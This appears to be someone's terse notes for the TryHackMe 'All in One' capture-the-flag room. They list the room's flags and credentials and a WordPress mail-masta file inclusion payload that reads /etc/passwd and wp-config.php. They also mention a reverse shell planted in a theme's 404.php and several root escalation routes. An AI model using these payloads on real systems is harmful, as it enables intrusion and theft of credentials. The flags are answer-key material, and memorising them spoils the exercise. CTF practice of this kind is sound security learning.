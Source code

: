 # TryHackMe All in One

>Saikat Karmakar | Feb 27:2021

-------------------------------------------------------------------------------

# Task 1
1. user.txt
```
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```
2. Root.txt
```
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

--
-----------
***Notes***
-----------
possible wp-login creds
```
user = elyana
pass = H@ckme@123
```

log=elyana&pwd=abcd&wp-submit=Log In&redirect_to=http://10.10.13.236/wordpress/wp-admin/&testcookie=1

CVE :(https://www.exploit-db.com/exploits/40290)

http://10.10.13.236/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd


**get the config file**
http://10.10.13.236/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

revshell location(uploaded in 404.php)
http://10.10.13.236/wordpress/wp-content/themes/twentytwenty/404.php

find /  -type f -user elyana 2>/dev/null

cat /etc/mysql/conf.d/private.txt

user creds of the box 
```
user: elyana
password: E@syR18ght
```
sudo ways

1. sudo -l -> GTFOBins socat 
2. suid -> /bin/bash(/bin/bash -p),
	/bin/chmod(This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.)

3. lxd 
```
https://github.com/saghul/lxd-alpine-builder
```

